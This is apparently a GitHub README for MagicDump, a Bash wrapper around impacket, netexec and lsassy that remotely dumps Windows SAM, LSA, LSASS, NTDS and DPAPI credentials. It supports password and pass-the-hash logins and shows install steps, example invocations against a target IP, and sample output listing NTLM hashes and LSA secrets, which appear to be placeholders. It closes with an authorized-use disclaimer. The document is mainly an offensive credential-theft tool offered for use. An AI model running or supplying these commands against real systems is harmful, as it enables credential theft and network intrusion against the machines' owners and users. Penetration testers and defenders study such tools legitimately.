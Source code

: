 # MagicDump

MagicDump is an automated tool designed to remotely dump credentials from Windows machines, including SAM, LSA, LSASS, NTDS, and DPAPI. It simplifies the process of extracting sensitive information, providing organized output and support for multiple authentication methods.

<br>

---

<br>

## Features
- **Credential Dumping**: Automates dumping of SAM, LSA, LSASS, NTDS, and DPAPI credentials.
- **Flexible Authentication**:
  - Username and Password Authentication.
  - Pass-the-Hash Authentication. 
  - (Upcoming) Pass-the-Ticket Authentication.
- **Organized Output**:
  - Logs actions in JSON format.
  - Saves dumps and logs to `~/.magicdump/`.
- **Real-Time Feedback**: Displays actions on the screen as they happen.

<br>

---

<br>

## Requirements
- Bash Shell
- Tools for credential dumping (e.g., `impacket`, `netexec`, etc.)

<br>

---

<br>

## Installation
Clone the repository:
```bash
git clone https://github.com/Mag1cByt3s/MagicDump.git
cd MagicDump
```

<br>

Make the script executable:
```bash
chmod +x MagicDump
```

<br>

---

<br>

## Usage
Run the script with the required options:
```bash
./MagicDump -t <target_ip> -u <username> [-p <password> | -H <hash>] [--local-auth] [-v]
```

<br>

### Arguments
- `-t` / `--target`: Specify the target IP address of the Windows machine.
- `-u` / `--username`: Specify the username to authenticate as.
- `-p` / `--password`: Specify the password for authentication.
- `-H` / `--hash`: Specify the NTLM hash for Pass-the-Hash authentication.
- `--local-auth`: Use local authentication (optional).
- `-v` / `--verbose`: Enable verbose output for debugging (optional).
- `-h` / `--help`: Show usage info

<br>

---

<br>

## Examples
```bash
./MagicDump -t 192.168.1.100 -u administrator -p SuperSecretPass123
```

```bash
./MagicDump -t 192.168.1.100 -u administrator -H '0123456789abcdef0123456789abcdef'
```

<br>

Output:
```bash
==============================
       MagicDump v1.0       
==============================
[INFO] Starting MagicDump against target 192.168.1.100
[INFO] Authenticating as user 'administrator'...
[INFO] Starting SAM dump using netexec...
[LOG] Operation: SAM, Status: success
[INFO] SAM dump saved to ~/.magicdump/dumps/192.168.1.100/SAM_dump_192.168.1.100.txt
[SAM HASHES FOUND]:
SMB                      192.168.1.100    445    HOST               administrator:500:aad3b435b51404eeaad3b435b51404ee:0123456789abcdef0123456789abcdef:::
SMB                      192.168.1.100    445    HOST               Guest:501:aad3b435b51404eeaad3b435b51404ee:abcdefabcdefabcdefabcdefabcdef:::
SMB                      192.168.1.100    445    HOST               DefaultUser:503:aad3b435b51404eeaad3b435b51404ee:deadbeefdeadbeefdeadbeefdeadbeef:::
[INFO] Starting LSA dump using netexec...
[LOG] Operation: LSA, Status: success
[INFO] LSA dump saved to ~/.magicdump/dumps/192.168.1.100/LSA_192.168.1.100.txt
[LSA SECRETS FOUND]:
SMB                      192.168.1.100    445    HOST               EXAMPLE\HOST$:aes256-cts-hmac-sha1-96:aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
SMB                      192.168.1.100    445    HOST               EXAMPLE\HOST$:aes128-cts-hmac-sha1-96:bbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbb
SMB                      192.168.1.100    445    HOST               EXAMPLE\HOST$:des-cbc-md5:cccccccccccccccc
SMB                      192.168.1.100    445    HOST               EXAMPLE\HOST$:plain_password_hex:d41d8cd98f00b204e9800998ecf8427e
SMB                      192.168.1.100    445    HOST               NL$KM:aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
SMB                      192.168.1.100    445    HOST               EXAMPLE\service_user:ServicePass123
[INFO] Starting LSASS dump using lsassy...
[LOG] Operation: LSASS, Status: success
[INFO] LSASS dump saved to ~/.magicdump/dumps/192.168.1.100/LSASS_dump_192.168.1.100.txt
[LSASS CREDENTIALS FOUND]:
EXAMPLE\service_user abcdefabcdefabcdefabcdefabcdefabcdef
[INFO] Dumping complete. Logs saved to ~/.magicdump/logs/192.168.1.100/report_192.168.1.100_20250105080107.json.
```

<br>

---

<br>

## Logfile example

```json
{
  "target_host": "192.168.1.100",
  "operation_time": "2025-01-05T07:28:58Z",
  "credentials_dumped": {
    "SAM": {
      "status": "success",
      "file_path": "/home/user/.magicdump/dumps/192.168.1.100/SAM_dump_192.168.1.100.txt"
    },
    "LSA": {
      "status": "success",
      "file_path": "/home/user/.magicdump/dumps/192.168.1.100/LSA_dump_192.168.1.100.txt"
    },
    "LSASS": {
      "status": "success",
      "file_path": "/home/user/.magicdump/dumps/192.168.1.100/LSASS_dump_192.168.1.100.txt",
      "method": "lsassy"
    }
  },
  "warnings": [],
  "logs": [
    "Starting MagicDump against target 192.168.1.100",
    "Authenticating as user 'administrator'...",
    "Starting SAM dump using netexec...",
    "SAM dump saved to /home/user/.magicdump/dumps/192.168.1.100/SAM_dump_192.168.1.100.txt",
    "Starting LSA dump using netexec...",
    "LSA dump saved to /home/user/.magicdump/dumps/192.168.1.100/LSA_dump_192.168.1.100.txt",
    "Starting LSASS dump using lsassy...",
    "LSASS dump saved to /home/user/.magicdump/dumps/192.168.1.100/LSASS_dump_192.168.1.100.txt"
  ]
}
```

<br>

---

<br>

## Roadmap
- Add support for Pass-the-Ticket authentication.
- Integrate more advanced credential dumping techniques.
- Encrypt logs and dumps for security.

<br>

---

<br>

## License
[GPLv3 License](LICENSE)

<br>

---

<br>

## Disclaimer
**MagicDump is intended for authorized use only.** Ensure you have permission before using this tool on any system.
